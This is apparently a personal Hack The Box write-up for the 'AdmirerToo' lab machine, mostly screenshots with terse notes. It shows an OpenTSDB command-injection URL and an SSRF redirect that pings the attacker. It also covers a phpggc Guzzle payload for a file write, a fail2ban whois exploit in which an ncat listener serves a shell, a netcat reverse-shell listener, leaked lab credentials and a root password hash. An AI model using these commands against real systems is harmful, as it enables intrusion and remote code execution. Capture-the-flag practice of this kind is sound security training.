AdmireTwo

Intresting Links I found:
https://github.com/c0rnf13ld/HackTheBox-scripts-autopwn/tree/master/AdmirerToo/autopwn
nmap
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
4242/tcp filtered vrml-multi-use
16010/tcp filtered unknown
16030/tcp filtered unknown
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
| 2048 99:33:47:e6:5f:1f:2e:fd:45:a4:ee:6b:78:fb:c0:e4 (RSA)
| 256 4b:28:53:64:92:57:84:77:5f:8d:bf:af:d5:22:e1:10 (ECDSA)
|_ 256 71:ee:8e:e5:98:ab:08:43:3b:86:29:57:23:26:e9:10 (ED25519)
80/tcp open http Apache httpd 2.4.38 ((Debian))
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-title: Admirer
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Enum


lets check for an exploit
thers an RCE in version number 2.4.0


Now lets check for the version number.

Open Burp and turn on proxy

Now check out burp

change the server to elastic and localhost to our machine, send it.

we have confermation the version number is 2.4.0 also we have a name maybe we can use it for ssh hobbes
https://github.com/OpenTSDB/opentsdb/issues/2051
PoC:
http://opentsdbhost.local/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[33:system('touch/tmp/poc.txt')]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json

python3 ssrf_redirect.py 80 'http://127.0.0.1:4242/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[33:system(%27%70%69%6e%67%20%2d%63%20%34%20%31%30%2e%31%30%2e%31%31%2e%31%33%37%27)]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json'

lets check for metrics that we have in our server
 
MySQL server Username/Password
/* Database configuration. */
define('DATABASE_USER', 'cats');
define('DATABASE_PASS', 'adm1r3r0fc4ts');
define('DATABASE_HOST', 'localhost');
define('DATABASE_NAME', 'cats_dev');
bQ3u7^AxzcB7qAsxE3 : jennifer

root

Lets see whats inside cats_dev database
show tables;
inside user tables
explain user;
we have user_id, user_name,password

we can change admin password as well
first lets echo a password to md5 string.


systemctl list-units --type=service
looking around in the services we can see fail2ban
8080 using this service
since we have ssh password we can now do port forwarding to more forward.
ssh -L 8081:127.0.0.1:8080 jennifer@10.10.11.137 -N -v

using the password we just made we can log in as admin
OpenCats is running on 9.5.2 and I found an exploit.
With this we can do a file write on the system, and try to get a RCE.
After tring to see who is the user that is running this service, I found that it is devel.
and devel those not have shell...
further enum.
https://github.com/fail2ban/fail2ban/security/advisories/GHSA-m985-3f3v-cwmm
I found that maybe with this older version of fail2ban we can actually get a RCE by executing a whois for our machine and executing a rev shell.
poc was in the link. since we can write in the folder /usr/local/etc/
we can use the opencats LFI to write a whois lookup.
first we create a whois.conf in our local machine in /usr/local/etc/whois.conf the contents of this file dont have to be anything.

next we need to create a payload

http://localhost:8081/vendor/composer/installed.json
looking at vendors

we can see its using guzzle
phpggc -u --fast-destruct Guzzle/FW1 /usr/local/etc/whois.conf /root/pwnd

now we can replace all the strings fron burp suite with this payload we just created.

After sending that request I have a ssh session open and you can see that we have a whois.conf file on the system now.

Now we are ready to exploit
creat a shell

ncat -nvlkp 43 -c 'cat /root/shell'

We can use ncat to connect to port 43 for whois look up and have it execute the shell when jennifer execute the command whois

whois <YourTun0Ip>
Now we are ready to exploit.
Start a nc listener.
nc -nlvp 9001


Type in the wrong password.

Root =)
root:$6$eP5MVyB1lXtVQgzU$H4xJdGiHfSu9JmUR80juqHC5BAca79yir2Z6bipW8s.DowTuNRo82/CjN7EMBK8lczD1AMYxgKTIp79DjN2R31:18817:0:99999:7:::